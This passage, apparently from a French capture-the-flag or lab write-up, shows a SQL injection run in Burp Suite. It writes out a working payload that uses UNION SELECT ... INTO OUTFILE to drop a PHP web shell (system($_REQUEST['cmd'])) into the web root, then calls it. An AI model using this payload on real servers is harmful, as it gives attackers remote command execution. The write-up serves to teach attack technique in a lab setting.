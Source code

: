 ![Recherche de la version de la base](/assets/validation/sqli-avec-burp5.png)

On continue avec les injections jusqu'a tenter d'écrire dans le path de l'url un fichier que l'on va nommer **prueba.php** que l'on puisse executer en faisant appel a l'url! (L'injection sql va nous permettre d'envoyer le fichier dans le serveur)  

&nbsp;

Exemple de la query forgée dans burpsuite, faites défiler pour voir la fin de la commande : 


```
username=kiki&country=Afganistan' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- -
```

&nbsp;

Et la sortie que genere le fichier php, l'erreur correspond au fait que nous n'avons pas passé de variable au paramettre cmd qui est attendu par le morceau de code php que l'on injecte.

![Recherche de la version de la base](/assets/validation/sqli-avec-burp6.png)
